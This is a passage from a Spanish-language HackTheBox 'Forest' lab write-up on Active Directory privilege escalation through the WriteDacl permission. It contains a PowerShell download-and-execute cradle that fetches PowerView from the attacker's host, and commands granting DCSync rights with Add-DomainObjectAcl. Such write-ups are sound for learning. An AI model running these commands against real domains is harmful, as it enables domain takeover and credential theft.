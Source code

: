 
![](/assets/images/HTB/Forest-HackTheBox/BloodHound1.webp)

Ahora ya podríamos pasar directamente al usuario Adminsitrador a través del permiso WriteDacl

> WriteDACL es un permiso de objeto de Active Directory que otorga acceso de escritura a la Lista de control de acceso discrecional (DACL) del objeto de destino, lo que significa que podemos otorgarnos cualquier privilegio que queramos sobre el objeto. 

[https://casimsec.com/2021/05/14/writedacl-and-dcsync/](https://casimsec.com/2021/05/14/writedacl-and-dcsync/)


Seguiremos estos pasos:

> Descargar y subir a la máquina vícitima PowerView

Para subirlo la máquina usaremos el servidor python `python3 -m http.server 8080`

Y el siguiente comando que ejecutaremos desde la máquina víctima `*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8080/PowerView.ps1')`

> Otorgar derechos DCSync al usuario creado (elc4br4)

```ps
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8080/PowerView.ps1')
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = ConvertTo-SecureString 'elc4br4' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $creds = New-Object System.Management.Automation.PSCredential('HTB\elc4br4', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $creds  -TargetIdentity "DC=HTB,DC=local" -PrincipalIdentity elc4br4 -Rights DCSync
```
